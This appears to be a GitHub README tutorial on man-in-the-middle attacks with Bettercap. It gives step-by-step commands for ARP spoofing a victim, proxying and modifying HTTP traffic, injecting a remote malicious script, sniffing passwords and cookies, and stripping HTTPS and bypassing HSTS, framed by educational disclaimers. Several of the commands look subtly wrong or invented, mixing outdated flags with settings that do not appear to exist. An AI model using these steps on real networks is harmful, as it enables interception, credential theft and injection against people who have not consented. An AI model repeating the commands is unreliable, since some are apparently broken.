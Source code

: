 # MITM Attack using Bettercap

This project demonstrates a **Man-in-the-Middle (MITM)** attack using **Bettercap**, a powerful network tool that allows penetration testers and security researchers to perform various types of attacks, including packet sniffing, ARP spoofing, and more. This guide explains how to use Bettercap to intercept and manipulate network traffic between a victim machine and a server.

> **Disclaimer**: This repository is for educational purposes only. Always ensure you have proper authorization before testing any network. Unauthorized access to computer networks is illegal and unethical.

## Prerequisites

Before starting, make sure you have the following tools and configurations:

- **Bettercap** installed on your system.
- A **Linux-based** system (Ubuntu preferred) for ease of installation and use.
- A **target machine** (victim) to intercept network traffic.
- Basic knowledge of networking concepts such as ARP and routing.

### Install Bettercap

You can install Bettercap on your system by following the instructions below.

#### On Ubuntu (Linux):

```bash
sudo apt update
sudo apt install bettercap
```
## Performing MITM Attack
### Step 1: Start Bettercap
Once Bettercap is installed, open a terminal and run the following command:

```bash
sudo bettercap -i eth0
```
Note: Replace eth0 with the network interface you're using. You can check your interfaces with ifconfig or ip a.
This command will start Bettercap and set up your machine to monitor the network traffic.
### Step 2: Enable ARP Spoofing
To perform a MITM attack, you need to poison the ARP cache of the victim. This will trick the victim into thinking your machine is the router (or any other target). To enable ARP spoofing, use the following command:
```bash
sudo bettercap -X -I eth0
```
This command will begin the ARP poisoning process and start intercepting the traffic between the victim and the server.
## Step 3: Monitor Traffic
You can now monitor the traffic flowing between the victim and the target. To do this, use the following commands:

```bash
net.probe on
```
This will show all active devices on the network. To capture HTTP traffic, you can also enable HTTP proxy:

```bash
http.proxy on
```
With this, Bettercap will proxy HTTP requests and responses, allowing you to inspect and even modify the traffic.

## Step 4: Manipulate Traffic (Optional)
Bettercap provides a wide range of capabilities for manipulating traffic, such as:

- Injecting custom HTML/JavaScript into web traffic.
- Changing HTTP responses.
- Sniffing passwords and cookies.
For example, you can inject content into HTTP responses:
```bash
http.injectjs https://example.com/js/some-malicious-script.js
```
Or log HTTP requests:

```bash
http.caplets on
```
## Step 5: Stop the Attack
Once you’re done, stop the MITM attack by pressing ```Ctrl+C``` in the terminal. This will halt the Bettercap process and restore the normal ARP table on the network.

# HTTPS and HSTS Bypass Using Bettercap

### 1. Start Bettercap
Begin by launching Bettercap with the appropriate network interface. In this example, we use eth0 as the network interface, but you may need to replace it with your own network interface (e.g., wlan0 for Wi-Fi).

```bash
sudo bettercap -iface eth0
```
### 2. Enable HTTP/HTTPS Proxying
To perform SSL stripping (bypass HTTPS) and capture unencrypted traffic, enable the HTTP proxying module. This allows Bettercap to act as a man-in-the-middle and decrypt SSL traffic.

```bash
set net.sniff.proxy true
set net.sniff.proxy.sslstrip true
```
### 3. Disable HSTS (HTTP Strict Transport Security)
To bypass HSTS, which forces websites to use HTTPS, you can use Bettercap's HSTS bypass feature. This helps in injecting HSTS-bypassing packets to manipulate HTTPS responses.

```bash
set net.sniff.inject_hsts_bypass true
```
### 4. Start Sniffing and Logging Traffic
Now, you can start sniffing traffic on the network. Bettercap will capture all the packets, including those stripped from SSL:

```bash
net.sniff on
```
If you want to save the captured data, you can store it in a .pcap file for later analysis:

```
net.sniff.save /path/to/logs.pcap
```
### 5. Analyze the Captured Traffic
Once you have captured the network traffic, you can analyze the ```.pcap``` file with tools like Wireshark. This will allow you to see all the unencrypted HTTP requests and responses that were originally secured by HTTPS.
These commands will enable Bettercap to strip SSL from HTTPS connections and forward the plaintext HTTP traffic.

## Ethical Considerations
This guide demonstrates how an attacker might intercept network traffic, but it should only be used in a controlled environment, such as a penetration test with permission or within a lab setup. Unauthorized use of MITM attacks against networks without permission is illegal.


## Conclusion

Bypassing HTTPS and HSTS protections is a powerful technique for penetration testing and network security analysis. Using Bettercap, you can intercept HTTPS traffic by stripping SSL and bypassing HSTS protections to observe and manipulate network communications. While this method is highly effective for educational purposes, it's crucial to always perform such activities within a legal and ethical framework. Always ensure you have explicit permission to test and analyze network security, and restrict these techniques to controlled environments like Capture The Flag (CTF) challenges or your own network setups.

By mastering tools like Bettercap, you gain valuable insights into network security vulnerabilities and better understand how attackers might exploit these weaknesses. As a security professional, your responsibility is to use this knowledge to strengthen systems and protect sensitive data.

